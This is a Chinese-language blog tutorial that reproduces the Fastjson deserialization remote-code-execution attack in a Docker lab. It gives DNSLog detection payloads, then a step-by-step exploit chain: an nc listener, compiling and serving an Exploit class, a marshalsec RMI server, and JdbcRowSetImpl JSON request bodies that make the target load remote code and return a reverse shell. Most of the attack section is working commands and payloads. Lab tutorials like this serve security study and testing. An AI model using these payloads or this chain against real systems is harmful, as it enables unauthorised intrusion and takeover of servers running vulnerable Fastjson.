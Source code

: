# Fastjson反序列化




## 简介

fastjson 是阿里巴巴的开源JSON解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 JavaBean。可以通过反序列化导致远程命令执行。





## 漏洞检测方法

### DNSLog回显

下面有多个请求，分别放到请求数据包部分(可能某个不适用, 多试几个)，通过构造DNS解析来判断是否是Fastjson，Fastjson在解析下面这些Payload时会取解析val的值，从而可以**在dnslog接收到回显**，**以此判断是不是Fastjson**

```json
{"a":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}

{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}
{"@type":"java.net.Inet6Address","val":"xxx.dnslog.cn"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"xxx.dnslog.cn"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"xxx.dnslog.cn"}}""}
{{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:"aaa"}
Set[{"@type":"java.net.URL","val":"xxx.dnslog.cn"}]
Set[{"@type":"java.net.URL","val":"xxx.dnslog.cn"}
{{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:0
```



### 增加key

Java语言中常用的Json处理主要是Fastjson和Jackson，相对而言，Jackson比较严格，强制Key和JavaBean属性对齐，只能少Key不能多Key，所以可以通过增加一个Key看响应包会不会报错来判断。



## 利用复现

这里用的docker环境

<img src="http://image.xpshuai.cn/fj1.jpg"></img>



1.查看数据包，可以用上面的`漏洞检测`的方法来判断

<img src="http://image.xpshuai.cn/fj2.jpg"></img>





2.vps用nc监听端口8888

```bash
nc -lvvp 8888
```



EXP地址：https://github.com/CaijiOrz/fastjson-1.2.47-RCE

3.修改exp中反弹shell的服务器地址和为我们的

<img src="http://image.xpshuai.cn/fj3.jpg"></img>



4.使用javac进行编译，然后会生成一个Exploit.class文件

```bash
javac Exploit.java
```

<img src="http://image.xpshuai.cn/fj4.jpg"></img>



5.在Exploit.class的目录下开启python的简单http服务，相当于访问就能下载

```bash
python -m SimpleHTTPServer 8080
```

<img src="http://image.xpshuai.cn/fj5.jpg"></img>

6.执行下面的命令开启RMI/LDAP服务

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.43.102:8080/#Exploit" 9999	#8080是前面SimpleHTTPServer的端口

```

<img src="http://image.xpshuai.cn/fj6.jpg"></img>







7.构造exp请求包

```json
# 1.2.47以下版本
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.43.102:9999/Exploit",
        "autoCommit":true
    }
}







# 1.2.24以下版本
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://同上类文件地址:9999/TouchFile",
        "autoCommit":true
    }
}

```



8.构造好的请求包发送如下，注意：Content-type格式要`json`，并且是`post`请求

```bash
Content-type: application/json
```

<img src="http://image.xpshuai.cn/fj7.jpg"></img>



9.接收到反弹回来的shell

<img src="http://image.xpshuai.cn/fj8.jpg"></img>





参考：https://www.naraku.cn/posts/86.html



---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AE%9E%E9%AA%8C/  

